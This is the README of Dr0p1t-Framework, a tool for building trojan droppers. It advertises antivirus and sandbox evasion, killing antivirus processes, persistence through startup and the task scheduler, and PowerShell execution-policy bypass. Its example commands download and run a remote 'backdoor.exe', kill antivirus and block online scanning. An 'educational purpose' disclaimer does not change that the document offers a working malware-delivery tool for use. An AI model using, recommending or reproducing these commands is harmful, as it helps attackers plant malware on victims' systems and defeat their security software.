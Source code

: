 # Dr0p1t-Framework ![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg) [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/) [![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg)](http://www.python.org/download/) ![Build Status](https://img.shields.io/badge/Version-1.1-red.svg)
###### Version 1.1 , see CHANGELOG.md file

Have you ever heard about trojan droppers ? you can read about them from [here](https://blog.malwarebytes.com/threats/trojan-dropper/).

Dr0p1t let you create a dropper that bypass most AVs, some sandboxes and have some tricks ;)

# Features
- Works with Windows and Linux
- Adding malware after downloading it to startup
- Adding malware after downloading it to task scheduler
- Finding and killing the antivirus before running the malware
- Running a custom (batch|powershell|vbs) file you have choosen before running the malware
- In running powershell scripts it can bypass execution policy
- Using UPX to compress the dropper after creating it
- Choose an icon for the dropper after creating it

# Screenshots ( Not always updated )
## On Windows
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random2.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random1.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/raw/master/Screenshots/Windows/Help_msg.JPG" width="35%"></img>
## On Linux (Backbox)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random1.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random2.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Help_msg.JPG" width="35%"></img>

### Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
  -h, --help   show this help message and exit
  -s           Add your malware to startup (Persistence)
  -t           Add your malware to task scheduler (Persistence)
  -k           Kill antivirus process before running your malware.
  -b           Run this batch script before running your malware. Check scripts folder
  -p           Run this powershell script before running your malware. Check scripts folder
  -v           Run this vbs script before running your malware. Check scripts folder
  --only32     Download your malware for 32 bit devices only
  --only64     Download your malware for 64 bit devices only
  --upx        Use UPX to compress the final file.
  --nocompile  Tell the framework to not compile the final file.
  -i           Use icon to the final file. Check icons folder.
  -q           Stay quite ( no banner )
  -u           Check for updates
  -nd          Display less output information
```
### Examples
```
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1
```
# Prerequisites
- Python 3.x or 2.7 ( prefered 3.5 and don't use 3.6 because it's not supported yet by PyInstaller )
- Python libraries requirements in requirements.txt

# Installation
if you are on linux and do
```
git clone https://github.com/D4Vinci/Dr0p1t-Framework
chmod 777 -R Dr0p1t-Framework
cd Dr0p1t-Framework
pip install -r requirements.txt
./Dr0p1t.py
```
And if you are on windows download it and then do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
pip install -r windows_requirements.txt
./Dr0p1t.py
```
Libraries in windows_requirements.txt are used to enable unicodes in windows which will make coloring possible :smile:

## Todo

[Check out this link](https://github.com/D4Vinci/Dr0p1t-Framework/projects/1)

## Contact
- [Twitter](https://twitter.com/D4Vinci1)
- [Facebook](https://www.facebook.com/kareem.shoair)

## Disclaimer
Dr0p1t Framework not responsible for misuse and for illegal purposes. Use it only for work or educational purpose !!!

Copying a code from this framework or using it in another tool is accepted as you mention where you get it from :smile:

> Pull requests are always welcomed :D

# Much more features to come, stay tuned !!
